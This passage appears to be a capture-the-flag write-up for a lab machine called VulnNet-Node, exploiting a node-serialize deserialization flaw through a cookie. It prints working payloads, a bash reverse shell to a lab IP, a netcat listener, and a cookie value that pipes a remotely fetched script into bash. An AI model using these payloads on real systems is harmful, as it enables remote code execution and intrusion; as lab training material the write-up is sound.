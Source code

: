 ```
    at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```

Found this article https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/  about a RCE on node-serialize module.   



The exploit payload:   

```
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ls /',function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```


## Foothold

1. Create a reverse shell rev.sh

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.8.51.26/9001 0>&1
```

2. Run a http server on attacker machine(I run with python on port 80)

```python
python3 -m http.server 80
```

3. Listen on port 9001 on another terminal

```shell
nc  -nlvp 9001
```

4. Send a request with cookie edited on burpsuite(or browser)

Payload:

```
{"username":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.8.51.36/rev.sh | bash ',function(error, stdout, stderr) {console.log(stdout)});\n}()","isGuest":true,"encoding": "utf-8"}
```

⇒ We got the shell.